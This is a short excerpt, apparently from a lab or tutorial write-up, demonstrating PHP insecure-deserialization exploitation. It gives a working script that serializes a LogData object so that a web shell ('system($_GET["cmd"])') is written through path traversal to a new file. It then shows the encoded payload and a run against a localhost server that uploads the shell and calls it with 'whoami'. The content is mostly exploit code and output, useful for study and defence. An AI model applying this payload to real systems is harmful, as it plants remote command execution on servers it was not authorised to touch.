 ```php
            FILE_APPEND
        );
    }
}

// the payload
$log = new LogData(
    '<?=system($_GET["cmd"]);',
    '../lol.php'
);

print_r(base64_encode(serialize($log)));
```

Encoded: `Tzo3OiJMb2dEYXRhIjoyOntzOjQ6ImRhdGEiO3M6MjQ6Ijw/PXN5c3RlbSgkX0dFVFsiY21kIl0pOyI7czo0OiJmaWxlIjtzOjEwOiIuLi9sb2wucGhwIjt9`

Serialized: `O:7:"LogData":2:{s:4:"data";s:24:"<?=system($_GET["cmd"]);";s:4:"file";s:10:"../lol.php";}`

Running the sploit:
```
# data=`php sploit.php 2>/dev/null`
# http -f http://127.0.0.1:9090/consume.php data="$data" -b
LogData Object
(
    [data] => <?=system($_GET["cmd"]);
    [file] => ../lol.php
)
# http -f http://127.0.0.1:9090/lol.php?cmd=whoami -b
```
